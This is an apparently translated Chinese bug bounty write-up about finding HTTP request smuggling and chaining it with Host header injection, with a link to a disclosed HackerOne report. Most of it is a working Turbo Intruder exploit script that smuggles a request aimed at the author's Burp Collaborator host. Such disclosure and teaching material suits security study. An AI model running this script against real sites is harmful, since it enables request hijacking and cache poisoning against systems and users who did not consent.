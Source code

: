 第二天，我在上午 10:30 左右醒来，听到电脑风扇再次转动的声音。我跳下床，检查我的屏幕。就在那里，一个鲜红的问号图标，像早晨的太阳一样耀眼。

![](img/61b9cf288cc29289aef3c7fa33e2e450.png)

可能的 HTTP 请求走私

尽管这可能是一个误报，但遵循的经验法则是，除非经过人工验证，否则永远不要假设它是一个误报。

## 利用过程:用 HTTP 请求走私链接 HTTP 主机注入

在我开始之前，我的披露请求已经在去年年中被 TTS Bug Bounty 欣然接受，你可以在这里找到关于 HackerOne 的报告:

[https://hackerone.com/reports/726773](https://hackerone.com/reports/726773)

既然我已经把事情摆平了，我们开始吧。

HTTP Request Smuggler 附带的 turbo intruder 脚本非常有用，尽管它确实需要一些手动调整，这取决于您如何进一步利用该应用程序。

我将脚本配置为走私一个 HTTP 请求，该请求带有一个指向我的 Burp 协作者的主机头值，如下所示:

```
import re

def queueRequests(target, wordlists):

    # to use Burp's HTTP stack for upstream proxy rules etc, use engine=Engine.BURP
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=5,
                           requestsPerConnection=1,
                           resumeSSL=False,
                           timeout=10,
                           pipeline=False,
                           maxRetriesPerRequest=0,
                           engine=Engine.THREADED,
                           )
    engine.start()

    prefix = '''POST /hopefully404 HTTP/1.1
Host: **o0p31lhhe946t0sns65oy4vsejkb80.burpcollaborator.net**
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1'''

    chunk_size = hex(len(prefix)).lstrip("0x")
    attack = target.req.replace('0\r\n\r\n', chunk_size+'\r\n'+prefix+'\r\n0\r\n\r\n')
    content_length = re.search('Content-Length: ([\d]+)', attack).group(1)
    attack = attack.replace('Content-Length: '+content_length, 'Content-length: '+str(int(content_length)+len(chunk_size)-3))
    engine.queue(attack)

    for i in range(14):
        engine.queue(target.req)
        time.sleep(0.05)

def handleResponse(req, interesting):
    table.add(req)
```

